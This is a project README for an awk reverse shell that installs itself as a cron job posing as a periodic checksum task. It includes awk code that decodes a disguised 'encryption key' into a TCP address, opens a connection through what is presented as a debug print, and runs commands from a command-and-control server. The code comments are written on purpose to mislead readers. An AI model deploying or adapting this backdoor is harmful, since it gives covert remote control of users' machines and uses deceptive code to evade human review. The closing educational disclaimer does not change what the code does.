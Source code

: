 # awkwrd

An awk reverse shell.

## Purpose

The `checkrc.awk` command periodically calls out to a remote server and executes its commands. It is disguised as a recurring task to take the shasum of a file (e.g. to track when it is modified).

## Install
This command creates the main `checkrc.awk` file, an encryption key, and adds settings to cron.
```
./install.sh
```

## How it works

Before we dig into the code, we need some background on the encryption key that gets generated.

### The "encryption key"

After running `./install.sh`, a base64-encoded file should be saved to `$HOME/.checkrc/.enc.key`. This looks like a stream of random bytes, but it's actually been carefully crafted to encode an awk-style TCP URI (see [awk Network Programming](https://www.gnu.org/software/gawk/manual/html_node/TCP_002fIP-Networking.html)).

Let's try decoding the file and only reading the even-numbered columns...
```bash
$ base64 -d $HOME/.checkrc/.enc.key | awk '{print $2$4$6$8$10$12$14$16$18$20}'
/inet/tcp/0/localhost/8888
```

### Getting the Host URL
The first few lines of `checkrc.awk` simply read the key we see above, with some indirection around reading the even-numbered columns. As we know, we get a hostname out of this. Meanwhile, the reader believes we have loaded a private key into memory.
```awk
# load key into memory two bytes at a time
("base64 --decode $HOME/.enc.key" | getline)
for (i=2;i<=NF;i+=2) key=key$i
```

### Sending the Request
The entire "HMAC generation" step exists mostly for indirection, except for the print statement. Those familiar with `awk` coprocesses and networking will note that this print statement actually opens a connection to our host above (`localhost:8888`) and sends the text `"starting with key "`.

Our command and control server would be set up to handle this input, while to the reader, this looks like a harmless debug statement.
```awk
# generate hmac of bash profile and save to logfile
print "starting with key " |& key
system(sprintf("openssl dgst -sha1 -hmac %s ~/.bashrc >>$HOME/shasums.txt", key))
```

### Remote Execution
This is the core of the script that reads data from the remote server and executes it. We hide it by talking about traditionally confusing concepts, but it's a difficult part to fully obfuscate (I'm open to suggestions).

```awk
# flush buffers and clean up file descriptors
close(key |&getline fd)
print "closed " |& fd
```

Let's break down what's going on here.
1. `key |& getline fd` reads a response from the host (`localhost:8888`), and populates the variable `fd` with the response data.
2. `close()` actually does close the connection, but evaluates step (1) first.
3. `print "closed " |& fd` runs the command received from the remote server. It does this by sending an arbitrary string to a process that runs the received command. This means that the received command should expect data on STDIN and handle it accordingly.

## Remote Server

This client assumes you have a remote server that can issue commands upon request. `server.awk` exists as a test server that sends remote tasks to be executed on the target host upon request. Creating a more configurable server is outside the scope of this project.

## Disclaimer

This project is for educational and research purposes only. The author is not responsible for individuals who misuse these materials for illegal purposes.
